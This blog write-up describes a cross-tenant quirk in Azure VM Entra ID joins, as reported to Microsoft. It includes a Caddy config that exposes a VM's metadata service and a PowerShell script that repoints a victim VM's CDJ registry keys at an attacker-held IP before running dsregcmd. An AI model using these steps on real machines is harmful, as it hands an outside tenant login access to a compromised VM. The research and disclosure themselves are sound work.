This post is a writeup of an interesting quirk that I found when playing around with Microsoft Azure Virtual Machines and joining AzureAD domains.

I raised the findings with [Microsoft Security Response Center (MSRC)](https://msrc.microsoft.com/), who closed the case (`92022`) as low severity.

[Here](https://youtu.be/cBRHP1kD-AU) is full the video demonstration.

## TL;DR
Microsoft Azure Windows Virtual Machines can be joined to an Entra tenant, which is different to the tenant which the VM is hosted in. To simplify domaining joining, you can use an official Azure AD VM Extension to join a VM to the tenant. The extension dosent do much, except update a few registry keys, to point the the VM's metadata service, and then run `dsregcmd /AzureSecureVMJoin` to join a domain.

`dsregcmd` is available on all Windows machines by default, and is used to join machines to domains (typically on prem). The `/AzureSecureVMJoin` flag makes the executable look at the registry keys, fetch an identity token, and join the domain.

By updating the registry keys to point to a different VM metadata service, in an attacker-controlled tenant, the VM will join that domain.

Applying "Virtual Machine Login" RBAC role to that **attacker-controlled VM**, will actually take affect on the victim VM. Thats right, applying a role in one tenant, will take affect on the VM in the different tenant.

This quirk only applies to the Virtual Machine roles, and isnt a privilege escalation, as you need local admin anyway, to update the registry keys of the victim machine.



# Microsoft Entra ID (Azure Active Directory)
Microsoft Azure Directory Domains often get confused with the on-premises equivalents, which is probably what fuelled the [name change to Microsoft Entra ID](m ) in 2023. They really share very little similarities, there isnt group policy in an ~~AzureAD~~ Entra ID Domain, nor are there domain controllers to manage or server-roles to control.

Although saying that, you can deploy ~~Azure Active Directory~~ Microsoft Entra Domain Services, which does provide the on-premise domain functionality to the cloud tenant. Or you can integrate your on-premise machines directly to Microsoft Entra ID, or use Azure Arch to manage on-premise machines but in Azure, or implement split tenancy, hash-only syncs etc... Basically, unsuprisingly, Microsoft Azure integrates nicely with the traditional Microsoft ecosystem and you can pretty much do whatever you want.

An Entra ID domain is essentially the **cloud-based identity provider and access solution**. You sign up for Microsoft products, get given your organization tenant, optionally map your domain over then create and manage identities. Its a *Microsoft* wide service, not just for Microsoft Azure.

This post is not concerned with any on-premise functionality, and just explores joining a Windows Virtual Machine to a Microsoft Entra ID tenant. You can think of a tenant as being synonymous with an organisation. 

# Azure Virtual Machines & Domain Joins
By joining a Virtual Machine to an AzureAD domain, you can manage access to the virtual machine via role-based access control. This could complement other services like Microsoft Azure Just-in-time access, where ports are opened closed on demand for authenticated users.

This can sigificantly reduce your maintainence burden, shadow IT access and allow you to improve baseline security controls across your tenant, with things like forcing MFA sign on to your virutal machine. Essentially, there isnt any real reason *not* to join your machines to your tenant.

# Azure AD Domain Join Extension
To join a VM to a domain, you can install the Azure AD based Windows Login extension (they've only had 18+ months to update the name to EntraID Domain Join...)

Go to your Virtual Machine, select Extensions from the sidebar, and search for the extension:


Here is a snippet of John Savil's explanation of using the [Azure AD VM Join extension](https://youtu.be/9xpf3jZBzhQ?si=KlNWqMlWa96yWrc1&t=643).

The extension will enable a managed identity on your Virtual Machine, and will join itself to your tenant. 

The extension is written in .NET, which means it *could* be decompiled with tools such as [dnSpy](https://github.com/dnSpy/dnSpy) to peak the internals. Although I dont know what the licensing is, so do not recommend it.



The extension file can be found at `C:\Packages\Plugins\Microsoft.Azure.ActiveDirectory.AADLoginForWindows\1.3.0.0`.

As an adminstrator, you can run `dsregcmd /status` and confirm that your machine is AzureAD domain joined.


# Connecting to the Machine via RDP
Connecting to a machine via RDP to an AzureAdJoined domain is a pain in the ass. It does not just work out of the box.

There are at least two ways of doing it, which require either increasing your security exposure, or a not-insignificant amount of configuration.

## 1. Sign in via web credentials
An [official guide](https://learn.microsoft.com/en-us/windows/client-management/client-tools/connect-to-remote-aadj-pc#connect-with-microsoft-entra-authentication) on connecting via RDP, suggests using connections via a web account. Here is [another guide](https://learn.microsoft.com/en-us/entra/identity/devices/howto-vm-sign-in-azure-ad-windows) which suggests the same. 

Connecting via web credentials, you cannot specify an IP address in your RDP file. It must be a hostname.


You can [create a FQDN for a public IP address](https://learn.microsoft.com/en-us/azure/virtual-machines/create-fqdn#create-an-fqdn). The easiest way is to go to Properties of your VM, and edit from there.


When configuring your RDP client, go to the advanced tab, and select **Use a web account to sign in to the remote computer**



Then enter your FQDN and the Entra ID user principal name:
.
In this example:
- Computer = `mywinvm.uksouth.cloudapp.azure.com`
- Username = `legit@ashleykingscotehotmailco.onmicrosoft.com`

However, even then, [you'll have hiccups](https://learn.microsoft.com/en-us/answers/questions/1254366/how-to-fix-the-target-identifier-in-the-request-wa).
The short version is: change your VM machine name (Advanced System Settings/System Properties > Computer Name), to match the value specified in the FQDN. Not only that, click more, and enter the remainder of the domain. The VM FQDN is shown, and must match what you are entering in the RDP client.



As easy as that 🙃, you can now sign into your domain-joined VM as an Entra User.



## 2. Disabling Network Level Authentication
An alternative to the above, is to disable NLA on the remote machine, and modify your RDP client configuration file slightly before connecting.

Network Level Authentication (NLA) is a security feature for Remote Desktop connections in Windows. It requires users to authenticate themselves **before** establishing a Remote Desktop session with a Windows machine. It helps protect the system from unauthorized access and spammed requests, by requiring valid credentials early in the connection process.

NLA doesn't support interactive Azure AD login during the initial connection handshake. Azure AD requires users to log in interactively (in order to support things like MFA login), which NLA blocks.

Disabling NLA isnt uncommon for Azure AD domain joins (especially considering the "official" methods are so painful...). Microsoft even provides "DisableNLA" as a run-command option for Virtual Machines.


However, disabling NLA is **not recommended**. To learn more, check out [Steve Syfuhs blog post](https://syfuhs.net/should-i-turn-off-nla) (Steve manages the Windows Authentication Platform team at Microsoft). 

If you've disabled NLA on the target machine, edit your RDP configuration file, and add the following parameters:
```
enablecredsspsupport:i:0
authentication level:i:2
```

Now, open an RDP connection to the machine, and in the Windows sign in page, enter your domain\username and password:
```
AzureAD\legit@ashleykingscotehotmailco.onmicrosoft.com
```

# Azure Domain Join Internals
As mentioned, you *could* easily decompile the `C:\Packages\Plugins\Microsoft.Azure.ActiveDirectory.AADLoginForWindows\1.3.0.0\AADLoginForWindowsHandler.exe` application to understand how it works. However, even just running the executable, the console outputs that it is updating the registry. I used a registry snapshot tool to take a before and after, and see which keys the utility is writing to.



Notice that not only does it mention Adding Registry Settings, but there is also mention of using `dsregcmd`.

By taking a snapshot of the registry keys before and after running the install manually, I could see that the application updates the following registry keys:


`Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ`

| Key | Value |
|-----|-------|
| HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ\AzureVmComputeMetadataEndpoint | http://169.254.169.254/metadata/instance/compute |
| HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ\AzureVmTenantIdEndpoint | http://169.254.169.254/metadata/identity/info |
| HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ\AzureVmMsiTokenEndpoint | http://169.254.169.254/metadata/identity/oauth2/token |


Notice that these values just point to the local machines metadata endpoints. Adding the virtual machine extension, will enable a system managed identity (without any additional RBAC permissions), which will provide access to the metadata service.

The extension essentially:
1. Adds a mangaged identity to the VM
2. Updates the registry keys
3. Runs `dsregcmd` to join the domain.

It seems to do other things (like sending a heartbeat), but the heavy lifting of joining a domain isnt actually performed by the extesnion, but by `dsregcmd` which is available by default on all Windows machines.

This means you dont actually need the VM extension installed at all, you could just repeat those steps manually an join an Azure tenant.

# Cross Tenant Domain Join
In an attacker-controlled tenant (`hackcorp.co.uk`), I created a virtual machine named `MyMaliciousWindowsMachine`, and added a system managed identity to it. There are no additional permissions attached to that managed identity, and the machine is **not** domain joined.

On that machine, i proxy the internal metadata service externally, using [caddy](https://caddyserver.com/). I had to enable the NSG rules, and the local firewall rules to allow HTTP inbound.

My caddyfile configuration looks like this:
```
:80 {
    reverse_proxy 169.254.169.254:80 {
        # Remove these headers to prevent errors with the Azure Metadata Service
        header_up -Host
        header_up -X-Real-IP
        header_up -X-Forwarded-For
        header_up -X-Forwarded-Proto
        header_up -X-Forwarded-Host
        header_up -X-Forwarded-Port
    }
}
```

The Azure metadata service isnt meant to be proxied externally, so I had to strip out some of the headers.

You can then run caddy like this:
```
caddy.exe run --config cadddyfile.txt --adapter caddyfile
```

This means that externally, anyone can access my metadata service.



## VM Domain Join
In the victim domain, I get a completely fresh VM, which is **not** domain joined, but **does** have a managed identity assigned to it.

That managed identity does not have any permissions assigned to it.

> NOTE: In order to update the registry settings, you need local admin rights. Initial access is glossed over here, as that could happen a number of ways. The windows machine could be running IIS with an RCE, or there could be leaked local credentials. You dont even need direct network access to the machine, you could just use the Azure serial port, or Azure run command. The fact that you need to update the registry keys, means that everything here isnt a security vulnerability. Its not a privilege escalation, as you already need local admin rights. However, it does highlight some interesting design decisions and provides some insight into the AzureAD domain join internals.

Run the following powershell script, to set the registry keys to point to the proxied metadata instance at `172.187.208.144`.
```
function Create-RegistryKeys {
    param (
        [Parameter(Mandatory=$true)]
        [System.Collections.Hashtable[]]
        $RegistryKeys
    )

    foreach ($regKey in $RegistryKeys) {
        $path = $regKey.Path
        $name = $regKey.Name
        $value = $regKey.Value

        if (!(Test-Path $path)) {
            New-Item -Path $path -Force | Out-Null
        }

        New-ItemProperty -Path $path -Name $name -Value $value -PropertyType $regKey.Type -Force | Out-Null
    }
}

$RegistryKeys = @(
    @{Path="HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ"; Name="AzureVmComputeMetadataEndpoint"; Value="http://172.187.208.144/metadata/instance/compute"; Type="String"},
    @{Path="HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ"; Name="AzureVmTenantIdEndpoint"; Value="http://172.187.208.144/metadata/identity/info"; Type="String"},
    @{Path="HKLM:\\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ"; Name="AzureVmMsiTokenEndpoint"; Value="http://172.187.208.144/metadata/identity/oauth2/token"; Type="String"}
)

Create-RegistryKeys -RegistryKeys $RegistryKeys
```

Now, on the victim VM, its as simple as running the `dsregcmd` utility. No VM extensions required.
```
dsregcmd /AzureSecureVMJoin /debug
```



This machine will successfully join the Malicious domain, using the credentials of my attacker-controller virtual machine.

## Goofy RBAC Evaluation
In the attacker-controlled tenant, I create a new user named `hacker@hackercorp.co.uk`.

When i try and log into the victim machine as this user, i get a permissions denied error.


In the attacker-controller tenant, I give that user the Virtual Machine Administrator Login role over the subscription.

I can then successfully log into the machine, as my `hacker` user. 



So the Virtual Machine Administrator Login role is evaluated based off the values set in those registry settings, and NOT hardcoded to the tenant that the VM actualy sits in.

### Responsible Disclosure:
The above was submitted to Microsoft Security Research Center on the 15th October 2024.

Submission number: `VULN-136902`
Case number: `92022`

- 15th October 2024 - Submitted to MSRC
- 21st October 2024 - Status changed to `Review/Repro`
- 27th October 2024 - I chased for an update
- 27th October 2024 - Microsoft Closed the issue
- 2nd November 2024 - I asked if I can publicly share the information. I never received a reply.